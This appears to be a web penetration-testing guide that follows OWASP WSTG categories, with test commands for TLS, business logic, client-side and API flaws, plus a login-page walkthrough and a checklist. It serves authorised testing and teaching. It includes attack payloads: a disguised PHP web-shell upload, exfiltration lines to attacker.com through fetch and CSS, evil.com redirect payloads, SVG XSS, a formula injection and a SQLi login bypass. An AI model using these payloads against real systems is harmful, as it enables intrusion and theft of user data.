## OTG-CRYPT — Cryptography Testing

### CRYPT-01 — Test for Weak Transport Layer Security

```bash
# Comprehensive TLS scan with testssl.sh
./testssl.sh --full https://target.com

# Check specific vulnerabilities
./testssl.sh --protocols https://target.com   # SSLv2, SSLv3, TLSv1.0?
./testssl.sh --ciphers https://target.com     # Weak ciphers (RC4, DES, EXPORT)?
./testssl.sh --vulnerable https://target.com  # POODLE, BEAST, SWEET32, etc.

# Nmap TLS scripts
nmap --script ssl-enum-ciphers,ssl-heartbleed,ssl-poodle -p 443 target.com

# sslscan
sslscan target.com:443
```

### CRYPT-02 — Test for Padding Oracle

```bash
# Test with padbuster
padbuster https://target.com/page ENCRYPTEDCOOKIE 8 -cookies "session=ENCRYPTEDCOOKIE"

# Detect via response differences on modified ciphertext
# 200 → likely valid padding; 500 → invalid padding
```

### CRYPT-03 — Test for Sensitive Information in Transmission

```bash
# Capture traffic with tcpdump (privileged)
tcpdump -i eth0 -w capture.pcap host target.com

# Check for sensitive data in plaintext
strings capture.pcap | grep -iE "password|token|secret|api_key"
```

### CRYPT-04 — Test for Weak Encryption

- Check for MD5 or SHA1 password hashing (should use bcrypt/Argon2)
- Check for ECB mode block ciphers (look for identical ciphertext blocks for identical plaintext)
- Check for hardcoded encryption keys in JS or config files
- Check for predictable IVs in CBC mode

```bash
# Identify ECB mode: encrypt same data twice — identical blocks = ECB
echo -n "AAAAAAAAAAAAAAAA" | base64
# Look for repeating 16-byte blocks in response (base64 encoded)
```

---

## OTG-BUSLOGIC — Business Logic Testing

> **Note:** Business logic flaws cannot be found by automated scanners. They require deep understanding of what the application is supposed to do and creative lateral thinking.

### BUSLOGIC-01 — Test Business Logic Data Validation

Test whether the application enforces logical constraints:
- Negative quantity items in shopping cart
- Setting item price to zero or negative
- Purchasing items that should require prerequisites

```bash
curl -X POST https://target.com/api/cart/add \
  -b "session=user_session" \
  -H "Content-Type: application/json" \
  -d '{"item_id": 123, "quantity": -1}'
```

### BUSLOGIC-02 — Test Ability to Forge Requests

Test whether sensitive values are computed server-side or trusted from client:

```bash
# Intercept checkout and modify price
# Original: {"item_id":1,"quantity":1,"price":99.99}
# Modified: {"item_id":1,"quantity":1,"price":0.01}
curl -X POST https://target.com/api/checkout \
  -b "session=user_session" \
  -H "Content-Type: application/json" \
  -d '{"item_id":1,"quantity":1,"price":0.01}'
```

### BUSLOGIC-03 — Test Integrity Checks

Verify that multi-step workflows enforce state:
- Can step 3 of a checkout be reached without completing step 2?
- Can a user confirm an order without payment?

```bash
# Skip payment step and go directly to confirmation
curl -b "session=user_session" \
  "https://target.com/checkout/confirm?order_id=12345"
```

### BUSLOGIC-04 — Test for Process Timing

Race conditions in concurrent requests:

```bash
# Use Turbo Intruder (Burp) for race condition testing
# Classic example: use a discount code twice simultaneously
# Bash parallel approximation:
for i in $(seq 1 10); do
  curl -X POST https://target.com/apply-coupon \
    -b "session=user_session" \
    -d "coupon=SAVE50" &
done
wait
```

### BUSLOGIC-05 — Test Number of Times a Function Can Be Used

Verify single-use limits:
- Password reset tokens (one-time use)
- Referral bonuses (should not be applied multiple times)
- Free trial signups (should not be repeated)

### BUSLOGIC-06 — Testing for Circumventing Workflows

Test whether critical steps in a workflow can be skipped by directly navigating to later stages.

### BUSLOGIC-07 — Test Defenses Against Application Misuse

Test for abuse scenarios:
- Scraping product data at high speed
- Submitting the same form hundreds of times
- Importing CSV with thousands of rows to exhaust resources

### BUSLOGIC-08 — Test Upload of Unexpected File Types

```bash
# Upload a PHP shell disguised as an image
cp shell.php shell.php.jpg
curl -X POST https://target.com/upload \
  -b "session=user_session" \
  -F "file=@shell.php.jpg;type=image/jpeg"

# Try double extension
cp shell.php shell.jpg.php
# Try null byte (old PHP): shell.php%00.jpg
```

### BUSLOGIC-09 — Test Upload of Malicious Files

```bash
# Upload SVG with XSS
curl -X POST https://target.com/upload \
  -b "session=user_session" \
  -F 'file=@evil.svg;type=image/svg+xml'
# evil.svg: <svg xmlns="http://www.w3.org/2000/svg" onload="alert(document.domain)"/>

# Upload ZIP bomb to test extraction logic
# Upload CSV with formula injection (=SYSTEM("calc"))
```

---

## OTG-CLIENT — Client-Side Testing

### CLIENT-01 — Test for DOM-Based XSS

```bash
# Look for dangerous sinks in JavaScript
grep -rn "document.write\|innerHTML\|eval\|setTimeout\|location.href" ./js_files/

# Check URL fragment handling
# https://target.com/#
# https://target.com/?ref=<script>alert(1)</script>

# Automated DOM XSS detection with dalfox
dalfox url "https://target.com/app#" -b "https://your-collaborator.com"
```

### CLIENT-02 — Test for JavaScript Execution

Test for dangerous functions that accept untrusted input:
- `eval(userInput)`
- `new Function(userInput)`
- `setTimeout(userInput, 0)`
- `document.write(location.hash)`

### CLIENT-03 — Test for HTML Injection

```bash
curl "https://target.com/search?q=<h1>Injected Heading</h1>"
curl "https://target.com/profile?name=<a href=http://evil.com>Click Here</a>"
```

### CLIENT-04 — Test for Client-Side URL Redirect

```bash
# Open redirect payloads
curl -I "https://target.com/redirect?url=https://evil.com"
curl -I "https://target.com/redirect?url=//evil.com"
curl -I "https://target.com/redirect?url=https://target.com.evil.com"
curl -I "https://target.com/redirect?next=%2F%2Fevil.com"
```

### CLIENT-05 — Test for CSS Injection

```bash
# CSS injection to exfiltrate data
curl "https://target.com/theme?css=input[value^=a]{background-image:url(http://attacker.com/a)}"
# Brute-force CSRF token one character at a time via CSS attribute selectors
```

### CLIENT-06 — Test for Client-Side Resource Manipulation

Test whether JavaScript loads resources (scripts, stylesheets) from URLs that can be influenced by the user (URL parameter → `src` of `<script>`).

### CLIENT-07 — Test Cross-Origin Resource Sharing (CORS)

```bash
# Test CORS policy
curl -I https://target.com/api/userdata \
  -H "Origin: https://evil.com" | grep -i "access-control"

# Dangerous: Access-Control-Allow-Origin: https://evil.com
# Dangerous: Access-Control-Allow-Origin: null
# Dangerous: Access-Control-Allow-Credentials: true + wildcard origin

# Test origin reflection
curl -I https://target.com/api/userdata \
  -H "Origin: https://notevil.target.com" | grep -i "access-control"
```

### CLIENT-08 — Test for Clickjacking

```bash
# Check X-Frame-Options header
curl -I https://target.com | grep -i "x-frame-options\|content-security-policy"
# Should have: X-Frame-Options: DENY or SAMEORIGIN
# Or CSP: frame-ancestors 'none'

# Test by embedding in iframe
cat > clickjack_test.html << 'EOF'
<html>
<body>
  <iframe src="https://target.com" width="800" height="600"></iframe>
</body>
</html>
EOF
```

### CLIENT-09 — Test WebSockets Security

```bash
# Intercept WebSocket traffic in Burp Suite
# Test for:
# 1. Lack of authentication on WebSocket connection
# 2. Missing origin validation (CSRF via WebSocket)
# 3. Injection in WebSocket messages

# wscat for manual WebSocket testing
wscat -c "wss://target.com/ws" --header "Cookie: session=TOKEN"
# Then send: {"type":"admin_action","data":"..."}
```

### CLIENT-10 — Test Web Messaging

Test `window.postMessage()` implementations:
- Does the receiver validate `event.origin`?
- Can an attacker send messages to trigger actions?

### CLIENT-11 — Test Browser Storage

```bash
# Check localStorage and sessionStorage via browser console
# Or via XSS payload:
# fetch("http://attacker.com/?data="+JSON.stringify(localStorage))

# Check IndexedDB and Web SQL for sensitive data
# Check Service Worker caches
```

### CLIENT-12 — Test for Cross-Site Script Inclusion (XSSI)

```bash
# Dynamic JSON responses without XSSI protection
# Try including the endpoint as a script tag
curl https://target.com/api/userdata \
  -H "Accept: application/javascript" \
  -b "session=victim_token"
# If response contains JSON array or variable assignment → XSSI risk
```

---

## OTG-APIT — API Testing

### API-01 — Test GraphQL APIs

```bash
# Introspection query (check if enabled in production)
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ __schema { types { name fields { name } } } }"}'

# Check for introspection being disabled (it should be in production)
# If disabled, try field suggestion-based enumeration

# GraphQL injection
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query":"{ user(id: \"1 OR 1=1\") { email } }"}'

# Batch query abuse (rate limit bypass)
curl -X POST https://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '[{"query":"{ user(id:1){email}"},{"query":"{ user(id:2){email}}"}]'
```

### API-02 — Test REST API Security

```bash
# API key in URL (should be in header)
curl "https://target.com/api/data?api_key=SECRET123"

# Test versioned endpoints for missing auth
curl "https://target.com/v1/users"   # Current version
curl "https://target.com/v0/users"   # Old version — may lack auth controls

# Mass assignment — send extra fields
curl -X PUT https://target.com/api/users/me \
  -H "Content-Type: application/json" \
  -b "session=user_session" \
  -d '{"name":"John","email":"john@test.com","role":"admin","is_verified":true}'
```

### API-03 — Test API Rate Limiting

```bash
# Send rapid requests to API
for i in $(seq 1 100); do
  curl -s -o /dev/null -w "%{http_code} " \
    "https://target.com/api/resource"
done
echo ""
# Should see 429 Too Many Requests after threshold
```

### API-04 — Test API Authentication

```bash
# Test API key scope
# Can a read-only API key perform write operations?
curl -X DELETE https://target.com/api/users/1 \
  -H "Authorization: Bearer READ_ONLY_KEY"

# JWT expiration
# Decode JWT, check exp claim
# Use expired token to test if server validates expiry
curl https://target.com/api/profile \
  -H "Authorization: Bearer EXPIRED_JWT_TOKEN"
```

---

## Category Overview Diagram



---

## Login Page Walkthrough

A complete example of applying WSTG categories to a single login page at `https://target.com/login`.

### Step 1 — Reconnaissance (INFO)

```bash
# Identify tech stack from login page
curl -I https://target.com/login | grep -iE "server:|x-powered-by:|set-cookie:"
# X-Powered-By: PHP/7.4.3 → PHP application
# Set-Cookie: PHPSESSID → PHP session

# Check source for comments, framework clues
curl -s https://target.com/login | grep -iE "<!--.*-->|<meta.*generator"
```

### Step 2 — Configuration (CONF)

```bash
# Is login only available over HTTPS?
curl -v http://target.com/login 2>&1 | grep "Location:"

# Are security headers set?
curl -I https://target.com/login | grep -iE "x-frame|csp|hsts|x-xss"
```

### Step 3 — Authentication (AUTHN)

```bash
# Test default credentials
curl -X POST https://target.com/login -d "user=admin&pass=admin" -v

# Test username enumeration
curl -s -X POST https://target.com/login -d "user=admin&pass=WRONG" | head -20
curl -s -X POST https://target.com/login -d "user=nonexistent&pass=WRONG" | head -20
# Compare responses

# Test SQL injection in login
curl -X POST https://target.com/login -d "user=admin'--&pass=x"

# Test brute-force lockout
for i in $(seq 1 10); do
  curl -s -X POST https://target.com/login -d "user=admin&pass=attempt$i" \
    | grep -oP "locked|blocked" | head -1
done
```

### Step 4 — Session Management (SESS)

```bash
# Capture session token after successful login
SESSION=$(curl -s -c - -X POST https://target.com/login \
  -d "user=admin&pass=correctpass" | grep PHPSESSID | awk '{print $NF}')

echo "Session: $SESSION"

# Inspect cookie flags
curl -I -X POST https://target.com/login -d "user=admin&pass=correctpass" \
  | grep -i "set-cookie"
# Expected: HttpOnly; Secure; SameSite=Strict
```

### Step 5 — Input Validation (INPV)

```bash
# XSS in username field (check if reflected in error message)
curl -s -X POST https://target.com/login \
  -d "user=<script>alert(1)</script>&pass=x" | grep -i "script"

# CSRF — does login have a CSRF token?
curl -s https://target.com/login | grep -iE "csrf|_token"
```

### Step 6 — Error Handling (ERR)

```bash
# Malformed requests
curl -X POST https://target.com/login \
  -H "Content-Type: application/json" \
  -d '{malformed json'
# Check for framework error messages or stack traces
```

### Step 7 — Summary

| Test | Finding | Severity |
|------|---------|---------|
| Username enumeration | Different error messages | Medium |
| SQL injection | Login bypass with `admin'--` | Critical |
| Missing HttpOnly flag | Cookie accessible to JavaScript | High |
| No CSRF token | CSRF on login possible | Low |
| Password brute-force | No lockout after 10 attempts | High |

---

## WSTG ↔ OWASP Top 10 2021 Mapping

| OWASP Top 10 2021 | WSTG Categories |
|-------------------|----------------|
| A01: Broken Access Control | AUTHZ, SESS-05 (CSRF) |
| A02: Cryptographic Failures | CRYPT, CONF-07 (HSTS) |
| A03: Injection | INPV-05 (SQLi), INPV-01/02 (XSS), INPV-08 (XXE), INPV-13 (CMDi), INPV-17 (SSTI) |
| A04: Insecure Design | BUSLOGIC (all tests) |
| A05: Security Misconfiguration | CONF (all tests), ERR (all tests) |
| A06: Vulnerable and Outdated Components | INFO-02, INFO-08 |
| A07: Identification and Authentication Failures | AUTHN (all), SESS (all), IDENT (all) |
| A08: Software and Data Integrity Failures | INPV-16 (Deserialization), CLIENT-06 |
| A09: Security Logging and Monitoring Failures | ERR, BUSLOGIC-07 |
| A10: SSRF | INPV-18 |

---

## Progress Checklist

Use this format to track WSTG coverage during an engagement. Rate each test as:
- `[ ]` Not started
- `[~]` In progress
- `[x]` Completed
- `[-]` Not applicable

```
## Engagement: [Target Name] — [Date]

### OTG-INFO — Information Gathering
- [ ] INFO-01 Conduct Search Engine Discovery
- [ ] INFO-02 Fingerprint Web Server
- [ ] INFO-03 Review Webserver Metafiles
- [ ] INFO-04 Enumerate Application on Web Server
- [ ] INFO-05 Review Web Page Content for Information Leakage
- [ ] INFO-06 Identify Application Entry Points
- [ ] INFO-07 Map Execution Paths
- [ ] INFO-08 Fingerprint Web Application Framework
- [ ] INFO-09 Map Application Architecture
- [ ] INFO-10 Collect Information via Application Traffic Analysis

### OTG-CONF — Configuration & Deployment
- [ ] CONF-01 Test Network/Infrastructure Configuration
- [ ] CONF-02 Test Application Platform Configuration
- [ ] CONF-03 Test File Extension Handling
- [ ] CONF-04 Review Backup and Unreferenced Files
- [ ] CONF-05 Enumerate Infrastructure and Application Admin Interfaces
- [ ] CONF-06 Test HTTP Methods
- [ ] CONF-07 Test HTTP Strict Transport Security
- [ ] CONF-08 Test RIA Cross-Domain Policy
- [ ] CONF-09 Test File Permission
- [ ] CONF-10 Test for Subdomain Takeover

### OTG-IDENT — Identity Management
- [ ] IDENT-01 Test Role Definitions
- [ ] IDENT-02 Test User Registration Process
- [ ] IDENT-03 Test Account Provisioning Process
- [ ] IDENT-04 Test Account Enumeration
- [ ] IDENT-05 Test Username Policy

### OTG-AUTHN — Authentication
- [ ] AUTHN-01 Test Credentials Over Encrypted Channel
- [ ] AUTHN-02 Test Default Credentials
- [ ] AUTHN-03 Test Account Lockout Mechanism
- [ ] AUTHN-04 Test Bypassing Authentication Schema
- [ ] AUTHN-05 Test Remember Password Functionality
- [ ] AUTHN-06 Test Browser Cache Weakness
- [ ] AUTHN-07 Test Password Policy
- [ ] AUTHN-08 Test Security Questions
- [ ] AUTHN-09 Test Password Reset
- [ ] AUTHN-10 Test Multi-Factor Authentication

### OTG-AUTHZ — Authorization
- [ ] AUTHZ-01 Test Directory Traversal / File Include
- [ ] AUTHZ-02 Test Bypassing Authorization Schema
- [ ] AUTHZ-03 Test Privilege Escalation
- [ ] AUTHZ-04 Test IDOR
- [ ] AUTHZ-05 Test OAuth Weakness

### OTG-SESS — Session Management
- [ ] SESS-01 Test Cookie Attributes
- [ ] SESS-02 Test Cookie Predictability
- [ ] SESS-03 Test Session Fixation
- [ ] SESS-04 Test Exposed Session Variables
- [ ] SESS-05 Test CSRF
- [ ] SESS-06 Test Session Timeout
- [ ] SESS-07 Test Session Logout Mechanism
- [ ] SESS-08 Test Session Puzzling
- [ ] SESS-09 Test JSON Web Tokens

### OTG-INPV — Input Validation
- [ ] INPV-01 Test Reflected XSS
- [ ] INPV-02 Test Stored XSS
- [ ] INPV-03 Test HTTP Verb Tampering
- [ ] INPV-04 Test HTTP Parameter Pollution
- [ ] INPV-05 Test SQL Injection
- [ ] INPV-06 Test LDAP Injection
- [ ] INPV-07 Test ORM Injection
- [ ] INPV-08 Test XML Injection / XXE
- [ ] INPV-09 Test SSI Injection
- [ ] INPV-10 Test XPath Injection
- [ ] INPV-11 Test IMAP/SMTP Injection
- [ ] INPV-12 Test Code Injection
- [ ] INPV-13 Test Command Injection
- [ ] INPV-14 Test Buffer Overflow
- [ ] INPV-15 Test HTTP Splitting/Smuggling
- [ ] INPV-16 Test HTTP Deserialization
- [ ] INPV-17 Test SSTI
- [ ] INPV-18 Test SSRF

### OTG-ERR — Error Handling
- [ ] ERR-01 Test for Improper Error Handling
- [ ] ERR-02 Test for Stack Traces

### OTG-CRYPT — Cryptography
- [ ] CRYPT-01 Test Weak Transport Layer Security
- [ ] CRYPT-02 Test for Padding Oracle
- [ ] CRYPT-03 Test Sensitive Information in Transmission
- [ ] CRYPT-04 Test Weak Encryption

### OTG-BUSLOGIC — Business Logic
- [ ] BUSLOGIC-01 Test Business Logic Data Validation
- [ ] BUSLOGIC-02 Test Ability to Forge Requests
- [ ] BUSLOGIC-03 Test Integrity Checks
- [ ] BUSLOGIC-04 Test Process Timing
- [ ] BUSLOGIC-05 Test Function Use Limits
- [ ] BUSLOGIC-06 Test Circumventing Workflows
- [ ] BUSLOGIC-07 Test Application Misuse Defenses
- [ ] BUSLOGIC-08 Test Upload of Unexpected File Types
- [ ] BUSLOGIC-09 Test Upload of Malicious Files

### OTG-CLIENT — Client-Side Testing
- [ ] CLIENT-01 Test DOM-Based XSS
- [ ] CLIENT-02 Test JavaScript Execution
- [ ] CLIENT-03 Test HTML Injection
- [ ] CLIENT-04 Test Client-Side URL Redirect
- [ ] CLIENT-05 Test CSS Injection
- [ ] CLIENT-06 Test Client-Side Resource Manipulation
- [ ] CLIENT-07 Test CORS
- [ ] CLIENT-08 Test Clickjacking
- [ ] CLIENT-09 Test WebSockets Security
- [ ] CLIENT-10 Test Web Messaging
- [ ] CLIENT-11 Test Browser Storage
- [ ] CLIENT-12 Test XSSI

### OTG-APIT — API Testing
- [ ] APIT-01 Test GraphQL APIs
- [ ] APIT-02 Test REST API Security
- [ ] APIT-03 Test API Rate Limiting
- [ ] APIT-04 Test API Authentication
```

---

## References

- [OWASP WSTG v4.2 Official Documentation](https://owasp.org/www-project-web-security-testing-guide/)
- [OWASP Top 10 2021](https://owasp.org/Top10/)
- [SecLists Wordlists](https://github.com/danielmiessler/SecLists)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [HackTricks Web Pentesting](https://book.hacktricks.xyz/pentesting-web)
- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- CWE-79 (XSS), CWE-89 (SQLi), CWE-22 (Path Traversal), CWE-918 (SSRF), CWE-94 (Code Injection)
